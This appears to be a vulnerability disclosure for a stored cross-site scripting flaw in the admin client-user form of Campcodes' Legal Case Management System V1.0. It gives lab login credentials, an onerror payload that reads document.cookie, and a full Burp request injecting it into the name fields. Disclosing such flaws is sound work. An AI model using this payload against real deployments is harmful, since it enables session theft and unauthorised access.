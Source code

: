 ## Legal Case Management System

## XSS on `/admin/client_user`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/client_user
```

The parameter `f_name` /`l_name`  are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/client_user HTTP/1.1
Host: 192.168.150.131
Content-Length: 1718
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary77MbuExhk8u2vcha
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/client_user/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InRhdCtCWFJqQ1ZRTDM4eVFBMFVjWWc9PSIsInZhbHVlIjoiZVZta1lGZzE0WGs0M2dWcGFKMVwvYVdpSFMwRHA3V3FOR2xKbnBoTU11UFVmeTVRdWlVMFBzUzJtd2c5Q1NSMHYiLCJtYWMiOiJiMjBlYTk2OGJkOGM2OTI2NjgyMDc5Yjk3MmQ5Njk5NGY2NjQ3NjY4OTIyYzBhMmE4NGQxNDcyZDliNmQwMGIwIn0%3D; test_session=eyJpdiI6ImIyVmFMQjJtNWdXM1RCekg4M0RIb1E9PSIsInZhbHVlIjoiSStOMytWVktDMFRIQWhDXC9cL2doZ1VJemlZTjFtQ3dXK0dOeVl0ZGtnbFdhem42eGVQK2lPa043VEpWUG9RYVRLIiwibWFjIjoiMTcyOTk1NjQ3ZTFmYzYwNmJmYWRmYzgzNGIxNmY0MDM5YzhmNzg5YmJkNTAzNDZiMWU3Yjk1Yzg3Y2ExNzJlYiJ9
Connection: close

------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="_token"

dIDWseikEM1UlakNR9wrVpwU77vwjBNR1ktwDT1O
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="imagebase64"

data:,
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="f_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="l_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="email"

123556@qq.com
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="mobile"

2311111111
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="address"

235 17th Street Southeast
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="zip_code"

200031
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="password"

Aa@12345
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="cnm_password"

Aa@12345
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="country"

5
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="state"

169
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="city_id"

6449
------WebKitFormBoundary77MbuExhk8u2vcha
Content-Disposition: form-data; name="role"

2
------WebKitFormBoundary77MbuExhk8u2vcha--

```

### Screenshot

![image-20240508222935639](./screenshot/image-20240508222935639.png)
